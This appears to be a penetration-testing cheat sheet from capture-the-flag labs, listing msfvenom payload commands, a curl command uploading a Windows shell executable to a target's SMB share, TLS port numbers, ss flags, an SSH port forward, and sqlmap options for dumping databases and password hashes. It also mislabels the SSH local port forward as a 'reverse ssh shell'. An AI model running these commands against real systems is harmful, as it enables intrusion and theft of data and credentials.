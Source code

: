 ### Metasploit 
msfvenom --list formats
msfvenom -l payloads

### Upload to SMBServer
curl --upload-file /root/windowsshell.exe -u 'RELEVANT\Bob' smb://10.10.224.160/nt4wrksv/
then curl -u 'RELEVANT\Bob' smb:10.10.224.160/nt4wrksv

### Default Ports with TLS
HTTPS - 443
FTPS - 990
SMTPS - 465
POP3S - 995
IMAPS - 993

### Sockets running on a host
We will use a tool called **ss** to investigate sockets running on a host.
If we run **ss -tulpn** it will tell us what socket connections are running


-t
Display TCP sockets

-u
Display UDP sockets

-l
Displays only listening sockets

-p
Shows the process using the socket

-n
Doesn't resolve service names

Check what services are blocked by a firewall using iptables
say the port is 10000 then you can create a reverse ssh shell like here -
`ssh -L 10000:localhost:10000 agent47@10.10.192.101`

### SQLmap
sqlmap -r requests.txt --dbms=mysql --dump
  Enumeration:
    These options can be used to enumerate the back-end database
    management system information, structure and data contained in the
    tables

    -a, --all           Retrieve everything
    -b, --banner        Retrieve DBMS banner
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --passwords         Enumerate DBMS users password hashes
    --tables            Enumerate DBMS database tables
    --columns           Enumerate DBMS database table columns
    --schema            Enumerate DBMS schema
    --dump              Dump DBMS database table entries
    --dump-all          Dump all DBMS databases tables entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate
